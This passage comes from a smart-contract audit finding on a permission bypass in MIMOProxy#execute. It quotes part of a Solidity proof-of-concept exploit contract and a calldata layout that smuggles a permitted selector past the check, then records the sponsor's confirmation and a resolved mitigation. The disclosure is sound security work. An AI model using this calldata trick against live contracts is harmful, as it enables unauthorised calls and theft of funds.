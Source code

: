 >             require(selector == signatureWithPermision, "bad selector");
>             return data;
>         }
>     
>         // Function that prepare attacker calldata
>         function getAttackerCalldata() public view returns(bytes memory)  {
>             bytes memory usualCalldata = abi.encodeWithSelector(this.execute.selector, msg.sender, new bytes(0));
>             return abi.encodePacked(usualCalldata, signatureWithPermision);
>         }
>     
>         function exploit() external returns(bytes memory data) {
>             (, data) = address(this).call(getAttackerCalldata());
>         }
>     }
> 
> If you call `exploit`, it would succeed but it shouldn’t (since exploit call execute with `0x00000000....` instead of the permitted 4bytes `0xdead1337`).
> 
> The exploit here is if you permitted contract A to run function foo only, A.fallback() is also permitted.
> 
> Your `getSelector` PoC won’t work if you are passing a non-empty bytes, it would work if you construct a call like `0x0cbd17c800000000000000000000000000000000000000000000000000000000000000200000000000000000000000000000000000000000000000000000000000000000dead1337`  
> which is equivalent to calling `getSelector("")` with some extra data `dead1337` at the end.
> 
> Consider the calldata layout  
> \[00\] 0cbd17c8  
> \[04\] 0000000000000000000000000000000000000000000000000000000000000020 (data offset)  
> \[24\] 0000000000000000000000000000000000000000000000000000000000000000 (data len)  
> \[44\] dead1337
> 
> data.offset = 0x04 + 0x20 (data offset) + 0x20 (1 word for length) = 0x44

**[RayXpub (Mimo) confirmed](https://github.com/code-423n4/2022-08-mimo-findings/issues/159)**

**horsefacts (warden) reviewed mitigation:**

> **Status:** ✅ Resolved

> **Finding:** A warden identified that callers could bypass a permissions check in `MIMOProxy#execute` by passing specially constructed calldata, enabling the caller to invoke a contract’s fallback function.

> **What changed:** `MIMOProxy#execute` now reads the first four bytes of the `data` parameter directly rather than using `data.offset` to extract the function selector from calldata.

> **Why it works:** Since attackers can no longer manipulate the extracted selector, they cannot bypass the permissions check. A [unit test](https://github.com/mimo-capital/2022-08-mimo/blob/5186ef4be23f9dda81c8474096edb1f0594d70c3/test/01_unit/proxy/MIMOProxy.test.ts#L103) demonstrates this behavior.

* * *
